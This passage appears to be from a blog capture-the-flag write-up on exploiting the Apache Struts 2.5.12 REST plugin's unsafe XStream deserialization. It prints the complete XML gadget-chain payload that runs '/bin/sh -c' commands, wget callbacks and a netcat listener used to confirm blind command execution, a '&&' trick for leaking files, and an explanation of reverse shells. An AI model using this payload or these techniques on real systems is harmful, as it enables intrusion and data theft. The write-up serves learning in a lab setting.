this, as this will be important when I try to explain how the vulnerability works!!!). Last but not least, an HTTP POST request is sent, with the header being the one set in headers and the body of the request being the exploit itself, which is stored in exploit (very intuitive...). The variable request will store the results of said operation, meaning it will store the HTTP response associated to the HTTP request that was just sent. The response is then presented to the user should it arrive, as per line 87.
The output we got after executing the exploit, according to the source code analysis, shows us that the payload was sent successfully to the target since a response was sent back to this client request from the Apache Struts server. However, we cannot be sure that our command was in fact executed successfully on the target, because said response contains no information regarding the execution of the command. It only returns the server status for the Apache Struts web app. Dead end? Of course not, my friend. Fear not, and remember the lessons you have been taught. In our crazy thief/actor example, we talked about how we can get some information indirectly. So, the thief couldn't get the actor to bring him an onion and consequently couldn't see for himself that an onion existed inside the house, but he could get that information directly by 'forcing' the actor to bring that information to him in another way. That is what we needed to do in this situation. We needed to somehow force the target machine to send us some kind of confirmation that the command we sent was executed, a signal flare of sorts. Yes, it is annoying, and yes, the fact that we can't see the output limits greatly our power by limiting commands that we can execute. I can't traverse directories and see what files are stored in the system because I will get no response. I can, however, try to print to the standard output (using cat for example) a file I might think exists on the system, and if it does indeed exist, the system performs some kind of action that assures me that this operation was executed successfully. This can only happen if the file exists. So, we have a situation here similar to a 'Blind SQL injection', for those that get that reference. The first operation, therefore, was one that needed to show us that the exploit worked, period. Since the exploit program itself won't give us that information, we ask the target to send us a signal flare indicating that it received a command and executed it (I feel like I need to make something clear here: this exploit specifically does not give you explicit information on whether it executed properly or not, meaning it doesn't explicitly tell you if the system is vulnerable. There are other exploit codes which allow you to test the system for the vulnerability before you try out sending any other commands to the target, such as the one that can be found on this GitHub repository. Do note, however, that, because of the nature of the vulnerability, other exploits also do not return to the user the output of the executed command in the target system should it be vulnerable. Therefore, the whole 'signal flare' tactic must be used no matter the exploit code tested. However, I do want to point out something interesting here. In the beginning of this parenthesis, I said that the exploit code we are using here does not give you explicit information on whether the system is vulnerable or not. It does give you the server response, though. Other exploits will also receive the same response. If they can detect the existence of the vulnerability simply by that, it means there must be something special in the HTTP response itself that indicates the vulnerability's presence. That something special is most likely the HTTP response code. When you get a 500 as a response it might mean you were able to execute the command, as we inferred earlier. For non vulnerable systems the response might be something else entirely. I can't really tell because I am not a Struts expert. That's why sometimes it might be a nuisance to go through many lines of output text, but it can give you useful information in some situations). How can we do that here? We can't directly access the machine, and the ony thing 'directly' connecting us to it is the network (there is no screen to allow us to see results. Results must be sent through the network, as do signals). Lucky for us, there are many commands that can be used in a Linux system that will force a machine to send a message to the other using the network. So, consider the following simple situation: if we were hosting a web service and the target decided to connect to our web service, we would be able to see in some type of log if the connection was properly established, and a request was received. By using the wget command utility, we can make a device request an HTTP page/resource being hosted on a server. If the HTTP resource exists, the server that got the request will respond with the resource itself, and if it doesn't, an HTTP error code will be returned to the client. But either way, the client needs to send the request first to the server. The client needs to send a signal to the server saying what it wants so that the server can serve it. If you use wget to recover a web page from a device that isn't even hosting an HTTP service, it will still send the HTTP request to the device. The device will obviously ignore it, and the wget command end its execution with an error result, but the signal (request) was still sent by the client in this one-sided communication. So, hopefully you got the idea here on what I planned to do here to get my signal: force the target device to send an HTTP request to my own device for any page by making it execute the wget command with my own IP address as the HTTP server URL. I didn't even need to host a service. All I needed was to monitor the port to where I would force it to send the request to see if I got a message. That by itself would be confirmation that I was able to execute a command in the target machine. This command, therefore, served as our signal flare during the use of this exploit.
The image above shows the execution of the exploit program with the wget command being sent to the target to be executed in its environment. This command is the third argument that can be seen in the image and is enclosed in double quotes. It will make the target, should the command be executed, send an HTTP request to my own machine (th3 h4x0r m4ch1n3 lololololololol) on port 1337 requesting a resource that is a text file called test-exploit.txt. So, a few questions may rise here:
Questions answered, I can finally bring up the next image, which will show us if the target machine executed the wget command we sent to it through the exploit. As mentioned in the bullet points above, I opened port 1337 for listening of inbound connections with the help of Netcat. The command I used was nc -lvp 1337, where nc is the Netcat executable. Argument -lvp is a group of 3 options that respectively mean, 'open port in listening mode' for recovery of inbound connection attempts, 'verbose output' so that more detailed information on what Netcat is doing and what is happening in general regarding its execution is presented to us users in the standard output, and finally 'local port number' to define on which port we will be waiting for connections. Last but not least, 1337 is the port itself that will be open in order to receive external connection requests, and it is set right after the last option p because it is actually an argument for the option itself. Should we have decided to put p before -lv, we would've had to separate the 3 option group into two separate groups, making the command instead nc -p 1337 -lv. Just a side note, the command the way it was executed forces Netcat to listen on port 1337 for the machine considering all IP addresses associated to it. Should we have only one specific address/interface we wanted Netcat to focus on, considering that it is possible to have more than one IP address per device, we could have altered the command to follow that rule (option -s). All this information on command syntax and option arguments can be obtained in the comfort of your own terminal by using the command man nc. So, if you want more information on how Netcat works, check that out, will ya? For now, let's move on and finally end the suspense. Was the command executed or not?
In the image above, marked in red, we see that we received a connection from an unknown device with the 10.10.143.13 IP address. That is our target. Looking at the line right below it, notice that we have a GET HTTP request that is asking for the /test-exploit.txt resource. Insert 'tada' sound effects here. Success. The command was executed on the target device meaning that the exploit works. We can now start doing more interesting things in the system. But just before we get into that let's think about the situation we have here for a second. The command wget which we executed on our target was itself the signal flare that we wanted. So the command confirmed itself. However, simply executing wgets in the system will get us nowhere. We want to be able to get root on the target machine, and being able to establish a remote access connection through the use of other commands that are not wget will take us a step further in that direction. The RCE situation that we have now is already better than nothing, but it still limits our actions a lot. So we want to be able to execute a command in the target system that will give us that shell. However, we still need a flare to confirm to us that this other command was executed, since we probably are accessing the system as the tomcat user, and this user most likely has very low privileges on the system (or not, if configuration was not done with much care. But it is almost safe to assume that the tomcat user is limited to the Tomcat related files and services on the system, other than files and programs which can be executed by any users). Of course, you can just go gung ho and send commands hoping that they will be executed. The confirmation here is more of a convenience than anything else. However, it is still interesting to learn how we can perform operations in this limited environment in a way that we are able to extract all the information we possibly can from it. So, to achieve this goal, I will use the Linux && operator.
As always, before we present techniques and results, we present the theory behind them. So, to follow suit, let's dive into what is the Linux && operator. This operator allows the two commands that are its operands to be executed sequentially by the system shell. This means that you can use && to request the execution of 2 or more commands through a single line of shell code. So, consider the following example:
mossoctopus@localhost$ cat /etc/passwd && wget http://mossoctopus.github.io
I have two commands in this single line: one that will print to the standard output the contents of the /etc/passwd file, and the other that will send an HTTP GET request to the mossoctopus.github.io website, which is this blog (I mean...if you don't know that by now...). These commands can also be executed separately, with one line of shell code being used for each command. I, for example, tend to use shell commands in this more 'separate' manner, one command per line. I won't say it's the most common way to use commands because I can't speak for all Linux shell users out there, but I can at least say that using && is not that common for me. Maybe you can relate. Income, however, the plot twist: just because we requested the execution of 2 commands, it does not mean that the commands will be both executed. That is because the operator itself follows a rule. This rule specifies the following: if the first command is executed successfully, execute the second one. If not, do not execute the second one. Therefore, if for some reason in our example the cat command exits with an error code (which can happen in case the file /etc/passwd doesn't exist, or in case the user executing the command has no permission to read the file, among other reasons for failure), the wget command will not be executed. That kind of reminds me of something...something I talked about in a distant past...oh, yes, of course: the thief/actor/onion example. 'If there is an onion inside the house, come out singing'. In our previous example, the thief was able to get the information he needed on something completely unrelated to the singing, by using the singing itself as a signal. What we did before with the wget by itself was the equivalent of the thief asking the actor for them to sing, just to be sure that the actor was actually doing what they were told to do. Now that we know that singing is possible, we can use it as our signal flare to identify other things that might be happening inside of the house. Therefore, we will still use wget as our signal flare. This command will always confirm to us if the previous one we executed was executed successfully. We can use this to figure out what files we have in the system, what directories we have the permission to access, and even what programs are executing there as well. The possibilities are plenty, even though the process a lot slower than simply getting the complete information from an output. I mean, it would take forever, but we could rebuild the target's /etc/passwd file in our own machine by testing out character by character. Bash shells, for example, have operators to compare strings. We can compare the output of the first character of the cat command to the letter a. The comparison returns code for true if the characters are the same and code for false otherwise. This is the same as a command returning an execution success code or an error code, meaning the wget that follows will only be executed in case the letters are the same. One by one we find out the letters that make up the /etc/passwd file in the target device, and voilá. We have extracted information from the target, slowly but surely. To make the process more efficient we would of course need a script to automate the process for us. However, all of this is not really necessary. If we are able to get a remote access shell connecting our machine to the target, we can just cat the entire file and read it with our own eyes a lot faster than we would the other way. With that explanation complete, I can now move forward on our hacking of the target machine.
The image above shows the exploit code once again being used, but this time to send two commands to be executed by the vulnerable target. Just like our previous example these commands are cat and wget. I can say that this command was also a test to see how the target would react to the && operator, and if the && technique would work considering our purpose for using it. The command cat applied over the /etc/passwd file was used because usually it is guaranteed that its execution will end in success. The file /etc/passwd is a given in Linux systems, as it stores information on users for said system, and usually permissions for this files are set such to allow any user to read it. Of course, this is a possibility and not a certainty. However, considering that it is a possibility with high probability of happening, using it for our test is a safe bet. I mean, sure, you can't always be 100% percent sure that a system will have the common configuration and files that others like it also have. You do, however need to start somewhere, or else, you will be stuck. I chose my 'somewhere' as being the cat /etc/passwd command. Unfortunately, that didn't work out so well for me, as, after executing the command, not GET requests showed up at the nc tab. Netcat got no connection attempts, meaning one of three things: (1) the cat /etc/passwd file exited after execution with an error code, (2) the target system for some reason does not recognize the && operator, or (3) the command I sent was somehow with the wrong formatting. When I thought of these 3 possibilities I was heavily and correctly leaning towards option (3) for the reason on why I didn't get any response. The fact that I had already completed the challenge and gained access to the box through alternative methods, as shown in this other post (and you thought you were rid of all the self promoting...well, think again!), also provided me with the information that there was an /etc/passwd file in the machine which was readable by all users, so I knew for sure the problem wasn't (1). The main reason, however, that I went with (3) as being the problem is because sending out strings of commands to be executed in a remote system is always an iffy situation. Especially when that string is not sent it its pure form, but is instead embedded into some other string, which is also formatted according to a certain language. So this was the point were I regretted not looking over at how the exploit works. Here, I am only showing you one command that I executed that went wrong. But trust you me that I tried a bunch of others before coming to the conclusion that I was doing something wrong to result in the recovery of no HTTP GET requests. Had I read the exploit and understood it, I wouldn't have had so much trouble. So there you go: learn from my mistakes. And let's continue this post by going back in time a little bit and checking out a step that should have been performed before this one.
So, let's go down that rabbit hole, shall we? It might be long and painful, but trust me, it sometimes is worth it, if it isn't just necessary. Let us begin this journey by understanding the vulnerability first, so that we can then go back to the exploit and see how it abuses the vulnerability. I will start by saying that this is a unsafe object deserialization vulnerbility. So, big words coming out of my continuously typing hands, but what exactly do they mean? I'm sorry, but this time I won't go in deep into explanations on how things work on a very basic level, or else I am going to need to teach you about programming, and if there are books out there that are used to teach you that, be sure that I am not going to be able to teach you the same thing with a few paragraphs. So, a word of warning: to understand how this works, you need to at least understand the basics on how object orientend programming works. You don't need to be a super developer, as I myself also am not, but you do need to know what an object is, an how it works in a code written with an OO programming language. Warning given, let's begin.
Many services in the Internet and back-end systems that implement support functions that keep the service running use object oriented programming languages. Java is one of them. For that reason, we have that these systems and services use objects to store information and to perform operations, information and operations that sometimes might need to be shared through the network so that a certain task can be completed. So maybe you have that user data is stored in an object that represents a user. When you are performing user related operations you want to consider this object specifically, but how are you going to transfer an object, which is an abstract concept, through the wires of the Internet? All you can transfer are bits, meaning, data itself. That is why, to make things easier, programming languages such as Java have built-in functions that allow a developer to serialize and unserialize an object they want to send through the network to another device. When you serialize an object, you are getting the information that is the object itself and transforming it, putting it in a format that is transferible through the network. You are transforming the object into a series of bytes (hence the name serialization) in order to be able to have the object be stored or transmitted. You can't store an object to a file, but you can store characters into a file. The analogy here is that you are taking a 'picture' of the object in its current state, so that you can send this picture to another device, and from the picture the receiving device can replicate the object on its own environment. So, let's consider here an analogous example: I want to clone myself, but I want my clone to exist in Japan, which is a country I am not currently physically present in. I can't go to Japan to perform this cloning operation, but worry not, I have an accomplice in Japan which will do the cloning for me. This accomplice, however, does not know what I look like, and the cloning can only happen correctly if he has an exact replica of my features in order to present to the cloning machine. So I take a picture of myself and send it to them by mail. They get the picture and now they have an image of my current physical state of existence. Physically, therefore, they are able to clone me. However, to completely clone me, they also need to replicate things that go beyond my physical appearance, like my personality, my talents, and my skills for example. So, considering that they know what is my personality and what I am capable of accomplishing, they are also able to include into the machine information such as 'knowledge on computer science', 'cries easily', and 'writes amazing blog posts'. With all that set up, I am able to have a clone of myself in Japan. Success. Let's now take a look at what is our object serialization equivalent here, considering the example: my current physical features are like the values attributed to variables associated to an object. Variables will be attributed a specific value and will hold such value given point in time, as will my physical features be a certain way given a specific point in time. My hair can be short or long, for example, the moment I take the picture. So the variable would be hair_length, for example, and it would contain the value short, in string format. The picture I took gives my accomplice the value for the variable hair_length which he must know composes the objects of class human. To be able to clone a human, meaning, to get a human object, he must know what a human class is and what information on humans he needs to input into the machine in order to get a reliable looking clone. So the picture will give the accomplice the state of variables which he knows must exist in the human object he wants to replicate, because he knows what the class human is and what it is made up of. My personality and skills fall under the method category. Objects have methods associated to them, which are basically functions, but which can only be executed by objects that are from the class where the said function was defined. So human objects may have a hack method associated to them, which dog objects won't have. That is because the human class was created to be able to perform hacking operations, whereas the dog class has no functions defined that would allow your pup to wear that awesome black hoodie and steal some government secrets. Oh well. So, let's consider here that the object being cloned is not simply from the human class, but from the mossoctopus_human class. That means my accomplice needs to know what methods are associated to this class to be able to create a clone that can perform the same operations as myself. That information cannot be sent through a picture. This means that the device receiving the serialized information, a.k.a my accomplice receiving my picture, needs to know what the class for the sent object is in order to replicate it in its own environment. Hopefully this was easy enough to follow and you now are a master of object oriented progamming and object serialization. Maybe not, but a girl can dream, right? But anyway, if you did understand how serialization works from this, understanding what deserialization is should be trivial: taking the picture is serializing. Using the picture to recreate the object is deserializing. So, building a data stram from on object is the serialization operation, and reconstructing the object given a sequence of bytes/data is the deserialization process.
Our next goal is to understand what is unsafe deserialization. So, the first thing that I think we should consider to understand this, is that unsafe deserialization usually happens when a server deserializes an object which can be crafted by an untrusted user, or which can have its data altered by an untrusted user before this data reaches the server for processing. I am using the term 'server' here, but you can simply consider this a destination device that processes serialized data and uses the output to perform other operations. So, to better understand this, let's once again consider an example, but this time, let's be more technical about it. So, consider a stock management website that stores all registered user information on a user object. Clients to the service can access said service through a web portal, should they provide valid credentials. When a user logs in, to maintain the user session, the service back-end crafts a cookie to send to this user. This cookie is the serialized form of an object that represents that user. This is a very crude example, so please don't stress over things like 'cookies can't have a serialized object format'. Should we be considering a real world example, maybe this serialized object would be converted to base 64 format before being sent to a user. This is just a simple example. Anyway, the cookie has this format because, should a user access the website again after closing the browser, they don't need to log into the system again. All they need to do is send the cookie, and the server deserializes the object that is the cookie to restore the user session for that specific user, with all the user related information it might use to build up a customized web page. So, for example, we can say that user A is the administrator for the system, and the variable admin for his object is set to 1, while user B who is not an administrator has this value set to 0. Is this the most efficient way to do this? I don't really know. However, I do know that it isn't the safe way to do it. Baer with me and you will soon see why. Whenever the server deserializes a cookie and comes across an object with the value 1 set for the admin variable of the object, it will behave a certain way. Administrator users have access to more pages and are allowed to perform actions that regular users shouldn't, such as 'reset stock', for example. User A would be able to reset the stock, while user B wouldn't. In theory. However, user B has hacker blood and he realized that the cookie he gets when accessing the stock management website for his company is actually a serialized object. He is mad at his company for firing him and wants to get his final revenge before leaving by resetting the stock information so that sales are affected. Normally, with his cookie, he would not be able to access the stock reset page. But, before sending the HTTP request for the resource that is this page, he intercepts the browser's crafted request and changes the cookie in order for it to represent and object that has the admin variable value set to 1. The server gets the request, extracts the cookie, and performs no verifications, simply taking the values in the serialized object as the correct values associated to the user. Upon verifying that user B is an administrator (the cookie says so, so it must be true), the server returns the stock reset page to user B and allows him to bring down chaos into the system.
The example above explains what unsafe deserialization is, while also explaining why you should never trust user input. Sure, in the example we didn't have a form for users to input information in a web page which is what we usually consider as being points where users can supply data to a server on a website. But if you really squint your eyes, you can see that a request in itself is user supplied data, even if 99% of the time the user proxies this task through the browser. Maybe amateur users won't think about ever looking at or changing an HTTP request, letting the browser do all the work for them, but that does not mean it isn't possible, or that it stops being user supplied data. Case in point, user B was able to change his HTTP request headers to exploit a flaw in our ficticious stock management app (but possibly based in a very real one). This was a simple example, but I do encourage you to look up a few others, because this type of vulnerability can get even more complex and harder to detect depending on how it finds itself imbued into a system. The Apache Struts 2.5.12 REST plugin we have in our hands is a clear example of that. But before we go into how this happens, let me wrap up the idea on what is unsafe deserialization here: the receiving device deserializes an object that can be crafted or changed by an untrusted user, and without sanitizing or verifying the information sent that will be used to build the new object, the software that handles this in the receiving device uses the newly created object to perform some operation in the system. The object class is built in such a way that it uses variable values as arguments when performing operations that might require high privileges to be executed or that might allow for remote command execution in the considered device. A basic example would be a class that defines a method that reads a file stored in the system with root permissions, and returns the contents of the file to the user through an HTTP response. What is the purpose of this operation? I don't know, but sometimes it happens. Developers will develop. This method receives as an argument the name of a file, which is associated to an object variable which can have its value set by an untrusted user on the client side. When the class was created, it was assumed that the user on the client side would never manually set the name of the file, instead choosing a file name from a list that the server itself would send to the user. Since the user can only chose the files from a restricted list present in a page for the website, it should be safe, right? Except not all obey rules, and a hacker figures out that the serialized object containing the name of the file to be read is sent in the body of an HTTP POST request. The web page itself may give you a list of files to choose from, but no one is going to stop the hacker from inputting a value of his choice into a request he intercepted from the browser before it even left his machine. He can also create a Python script that send the request directly, no proxies such as the browser or the file choice web page needed. And then, reading the contents of /etc/shadow just got really easy.
We then finally get to the point where I can say: this is the vulnerability we have in Apache Struts 2.5.12 with the REST plugin. REST, for those that don't know it, is an architecture that defines standards that allow applications to communicate with each other. Sometimes programs need to communicate with eachother to obtain information that will allow them to proceed with processing. APIs, which are Application Programming Interfaces, are what allow this communication to happen. So program A sets an interface, or, in other words, a specific way that requests be sent to it, in order to allow program B to request that a certain operation is performed by A or that a certain data from A be returned to it. APIs are well documented and allow for programs to request operations to be performed by other programs without having to know the details behind the implementation of the latter. The interface is the waiter to the chef in the kitchen. If I want a certain dish, I do not need to know how to cook it, nor do I need to ask the chef myself for that dish. I ask for the waiter, and the waiter carries out my order in a way that the chef will understand and provide me with the expected result. REST is therefore an architecture that allows for the creation of APIs that will have some specific characteristics. I will not go into too much detail here. However, I will say that many RESTful APIs are built on top of the HTTP protocol, in which you use the HTTP methods to request the realization of operations other than the regular HTTP ones. So you might use a GET /users command to retrieve all columns on a database table that stores information on system users, instead of getting a web page called users. Program A uses the HTTP command interface to perform database related operations that a program B might request from it. Therefore, B does not need to know how to access the database or go through the bureaucracy needed to speak to the database server, as program A, which already implements all of this, provided B with an easier way to perform said database operations without having to know the inner workings of the database management software and the database itself. Please, if I am spouting out nonsense, feel free to correct me, as I am not an API or REST afficionado, nor am I a developer to explain these things with the same detail and correctness as I do security stuff. I do my best to understand it...but some things are just...yeesh. So, going back to the initial point of the paragraph, the REST plugin in Apache Struts 2.5.12 allows a program to request that an operation be performed by the Apache Struts web app through HTTP requests. That is why our exploit works by sending an HTTP POST request to the Apache Struts server. The body of this request contains information that is processed by the REST plugin, the waiter, should you remember our restaurant example, which in turn sends it to the the Apache Struts app software in order for some kind of operation to be performed by it. With that part understood, we can now see what the REST plugin is doing wrong.
Since REST uses HTTP as the way to communicate when we consider the Apache Struts 2.5.12 plugin, we have that requests sent follow the HTTP format. Messages will contain HTTP headers and HTTP bodies. One of the header fields we can have in HTTP is the Content-Type header which specifies what will be the data type for the HTTP message body. Sometimes it might be an image, sometimes it might be a simple HTML file, so on and so forth. When using the Apache Struts 2.5.12 REST plugin, and the value for this header field is set to application/xml, the REST plugin program assumes that the message body will contain a Java serialized object in XML format. For that reason the program calls a function named XStreamHandler that unserializes the object in order to perform any operations it may with it. The problem seems to be that the REST plugin just readily accepts any object that is sent to it and does no kind of verification to see if the input is malicious. So, by crafting a specific object with a specific structure that calls specific methods, a user is able to force a command to be executed in the command line of the vulnerable device. An object is created in such a way that will lead to the calling of a process builder function which accepts as its argument a command, resulting in code execution. To top it all off, since the plugin software does nothing about it, the code is executed with no intervention attempts. This is a very simple explanation of what is happening. The whole path to RCE is pretty complex, especially considering there are a bunch of Java methods involved. I feel like explaining everything here in the most detailed way would be useless and tiring. The general idea, though, I have presented to you, and it is the important thing to understand so that we can find the mistake that was holding us back. Yeah, remember that? Anyway, if you do want to learn about the vulnerability in more detail, I recommend this McAffe article on the subject, as well as this article written by the discoverer of the vulnerability, Man Yue Mo.
What we will do now is go back to the exploit code and look at the exploit string we had ignored earlier, because now it's about to get mighty important. We know that sending that string with our command somewhere within it through an HTTP POST request is what results in a remote command execution. We now know why. Remember that the HTTP header for the malicious request included the Content-Type field, with its value set to application/xml. This means that we are sending to the vulnerable target an XML string that will be interpreted as a Java serialized object in XML format. This object is actually a chain of objects, since attributes (= variables) of one object are actually another object. The most 'external' object in this matryoshka doll of objects is jdk.nashorn.internal.objects.NativeString as seen by the enveloping tags in lines 26 and 70. In line 28, however, one of the variables associated to this class can be seen as being a class itself. If you keep going through the XML code you will see the whole chaining of objects happening, and one of the reasons why I recommended the McAffe article is because they have a nice image showing all of this in a much more clear way. However, what I do want to point out here is what we see in lines 38 to 41. a class called ProcessBuilder is defined with attribute command set to /bin/sh -c [your-exploit-command-here]. This is the place in the object that leads to the RCE. Notice that we are calling /bin/sh here, meaning that the exploit in this format only works for Linux targets. Should our target be a Windows system, maybe we would have had to change the exploit. This shows another reason why it is important to try to understand how the exploit you're using works. The other reason why this whole analysis was necessary, was because it helped me understand the problem with the command I sent the last time I tried to use the exploit. Information sent to the target is in XML format. This means that my command will be included in an XML string and will be parsed as a part of this XML string. The & character, to be interpreted as & must be escaped, or else it will be read as a reserved character from the XML language. So instead of using the command with &&, we need to change & for &, the escaped version of the character. Pretty simple once you understand what you are doing.
So, to finish off this section as a nice gal, I will put down below the exploit string with indented XML tags for those that wish to see the relationship between the objects in a more clear way within the code itself. But after that, meet me back on the next section, when we will finally get this train going with a working exploit!
<map>
<entry>
<jdk.nashorn.internal.objects.NativeString>
<flags>0</flags>
<value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
<dataHandler>
<dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
<is class="javax.crypto.CipherInputStream">
<cipher class="javax.crypto.NullCipher">
<initialized>false</initialized>
<opmode>0</opmode>
<serviceIterator class="javax.imageio.spi.FilterIterator">
<iter class="javax.imageio.spi.FilterIterator">
<iter class="java.util.Collections$EmptyIterator"/>
<next class="java.lang.ProcessBuilder">
<command>
<string>/bin/sh</string><string>-c</string><string>'''+ command +'''</string>
</command>
<redirectErrorStream>false</redirectErrorStream>
</next>
</iter>
<filter class="javax.imageio.ImageIO$ContainsFilter">
<method>
<class>java.lang.ProcessBuilder</class>
<name>start</name>
<parameter-types/>
</method>
<name>foo</name>
</filter>
<next class="string">foo</next>
</serviceIterator>
<lock/>
</cipher>
<input class="java.lang.ProcessBuilder$NullInputStream"/>
<ibuffer/>
<done>false</done>
<ostart>0</ostart>
<ofinish>0</ofinish>
<closed>false</closed>
</is>
<consumed>false</consumed>
</dataSource>
<transferFlavors/>
</dataHandler>
<dataLen>0</dataLen>
</value>
</jdk.nashorn.internal.objects.NativeString>
<jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
</entry>
<entry>
<jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
<jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
</entry>
</map>
We have found the keys to the kingdom, and now it's time to RAID-THAT-CASTLEEEEEE! Ok, maybe I am overly excited, but it's the thrill of the game, I guess. So the image below shows the new command we had to send to our target, through the exploit code we chose to use, in order to get it to be interpreted and executed successfully in its environment.
A small but extremely important change. If you can't see the change quite as immediately as I thought you would, check out the white rectangle in the middle of the command, which is actually the position of my 'cursor' in the command line. So, with this command, our goal is still the same as it was before: see if the && operator is recognized and if we get our signal flare wget to notify us if the first command executed correctly. Just to be very clear, right now I don't really care about the contents of the /etc/passwd file. I am only printing the file to the standard output on the target because I know this is a file bound to exist in a Linux system. I am using it as a guarantee in order to verify if something else works, in this case, the whole && and wget alert shenanigans. That being said, I would like to request a drumroll please, before I present to you the result of the execution of this command on the target, by using Netcat to listen to the possibly incoming connection attempt we will get if we get to the point where the wget operation is performed on the target.

Ding ding ding ding! We've got a hit, ladies and gents! The IP address 10.10.143.13, which is the target's IP address, sent us an HTTP GET request for the etcpasswd2.txt file, and I know you are a smart cookie and noticed that was the file we asked to be requested by the wget command in our last usage of the exploit. This means we can now go for bolder commands and try to get into the system through this RCE vulnerability. The next goal in our objectives list is getting a reverse shell in this system. However, before we do that...'what is a reverse shell?', some of you might be asking, so let's talk about this for a little while.
So, consider you want to remotely access a Linux system. You usually achieve this goal by using SSH to connect to said system and get a shell, which will allow you to interact with the Linux OS and operate it through a command line. There are also remote access softwares that allow you to access a system's desktop environment remotely, such as Remina or PuTTY (when you want to access a device from a Windows systems), which will allow you to access the system completely, all operations and utilities included, as with a remote desktop you also get the graphical user interface to interact with. Do note, however, that even though through a shell you can't access the softwares that require a graphical interface to work, you still have a lot of power over the system and, the flexibility to get a lot done. I mean, why do you think servers don't actually need a graphical interface/desktop environment on the first place? All the functionality they need to provide their services and to be properly managed is there without the graphical interface, plus, they don't get to deal with the overhead of having to process information to create the graphical interface, meaning more efficiency for the server as well. Sure, I won't be able to open a Firefox or Chrome browser in a remote shell and visually browse through a website, however I can get the web page's source code through wget and check the page out in a not so user friendly manner. Of course this is a very non convenient and not at all pleasing way of browsing the Internet, but it is still a way to access the World Wide Web's resources. This is a simple example, and of course there are some programs you will never be able to execute in a shell, say, a game for example, as it requires the graphical interface and the interactions the user has with it to work properly. However, our goal here as hackers is simply to get into the system with enough functionality that will allow us to escalate our privileges to root. A shell is plenty enough for that. Getting a remote desktop seems like a cannon shot being used to kill an ant, and if you already don't, you will soon enough understand what I mean by that. So, going back to SSH. When using SSH to get remote access, you, as the client, request the SSH server access to a remote shell. If you authenticate correctly, this server provides you the interface to interact with the local system as if you were using a local shell. You send out commands through the network using the SSH protocol, and when the commands reach the SSH server, it causes the execution of the command in the current device and returns to the client the answer of this execution. So, in summary: you the client request the shell, and SSH provides it for you. The SSH service receives your inbound connection with shell commands to be executed on the system. When we are talking about a reverse shell, we are talking about a communication that is initiated by the remote system. Instead of you asking for access to a shell in said system, the system/device is the one to establish a connection to you (as if you were a server) and 'show' you the shell program. So, instead of 'I will execute this command you requested me to', we have a 'I request you to tell me what to execute' situation. I know it seems like the same thing, but read it again and give it a second. And if you still don't get it do that again. You may exit the for loop once you've seen it. If you haven't though, here is an analogy: the first scenario is you having to ask someone for help, while the second scenario is them offering you help. In both scenarios you need to explain what you need them to do for them to be able to help you, however, the first one will also require you to go after someone willing to help you. In other words, in the first scenario, you need an open port with a software that offers the remote shell service listening on that port. In the second scenario, you also need to go after something: a place with people willing to help. However, once you do reach such a place, you don't need to worry anymore about asking or even being rejected, help will come. We have found our place with people willing to help through the RCE. We have a way to generate a reverse shell, to force the target system to want to help us. But then you might ask: why go through the trouble of establishing a remote shell when you can just use the RCE to maybe open the SSH port and start the SSH service? Well, the first answer to that is simple: we perform the RCE with the remote system user that is actually running the vulnerable software. In this case, the user will be associated to Tomcat, and usually Tomcat users in a system don't have permission to do much outside the Tomcat environment, especially not starting other services such as SSH. The second answer involves other possible players, the firewalls. If the network you are attempting to invade is protected by a firewall, inbound connections to port 22, the SSH port, or to any other port providing remote access might be blocked. Your request packets will be dropped before even reaching the target. When we have a reverse shell, however, we have a shell established through an outbound connection from the target network's point of view. Firewalls don't usually restrict outbound connections, or else, people inside the network they protect wouldn't be able to perform any activities or operations that need the network to work. It is also easy to mask this reverse shell connection and make it look more like a connection that would regularly be performed by the target device. In the reverse shell scenario, the local system is the server and the remote system that we wish to access acts as a client. If we establish the reverse shell in port 80, the remote system will always send its messages to our port 80, and we will respond after receiving such messages. This looks a lot like a regular HTTP connection if you ask me. Sure, if we analyze the messages themselves, we will see a bunch of shell commands and their results being sent back and forth and not web pages, but it takes a more powerful firewall or even another security hardware to detect that anomaly. So, another reason why reverse shells are used are exactly because they allow you to be more stealthy and allow you to bypass poorly configured or simple security measures. To top it all off, it allows you to be more in control of the connection itself. You don't depend on the target's server, and you don't need to use the port this server defines. You are the server, so you are in command of the specifics for the connection. With a reverse shell, you also need no credentials to get the remote access, as you would need with SSH. Do you recall that we, in our challenge scenario have no credential information to try to log into the system through SSH? So there you go. Another advantage of getting a reverse shell in this scenario. Also, can you see now how a reverse remote desktop would be a hassle? First, I don't know of any commands I could possibly send through the exploit to get such a thing, and secondly, this whole operation and communication would get a lot louder, since the packets being transmitted through the network would get a lot more complex. Hiding it also gets a lot harder should you want to do that.
The question now is: how do we get a reverse shell in the system? Well, there are many ways to do that. Netcat can be used, and so can Bash. Java, Ruby, PHP and Perl reverse shells are all possibilities as well. However, it is always nice to go with simplicity and certainty. Establishing a Java reverse shell requires a lot more than establishing a simple Bash reverse shell. You can't establish a reverse shell with a one line command when using Java, whereas you can do it when using Bash to write the code that will provide you with it upon execution. Another thing to consider is that, even though this system has Java installed, proven by the existence of Tomcat within said system, not all systems will. It is always easier to consider reverse shell code that can be created by software that ships with the OS and OS version you have on the target. So, our target is Linux, more specifically, Ubuntu Linux, as shown to us by NMap. From what I know, this Linux distribution in its most basic form usually installs, during the formatting process, Netcat, Bash, Python and Perl. This means that we can try to establish a reverse shell with more certainty and with a one line command by using any of these. We could also create a file in a world writable directory, print code into it using echo, and execute it, but that seems like unecessary work, don't you agree? Well, you don't really have too, because it won't matter in the long run of this post, as I decided to go with the Python one liner to get the reverse shell. Why Python? Because the Python reverse shell usually results in a prettier shell that allows for more interactions than a simple reverse sh shell provided by bash. So, simply put: for convenience. The shell provided by a Bash reverse shell command usually bugs out whenever you try to open a program with a terminal 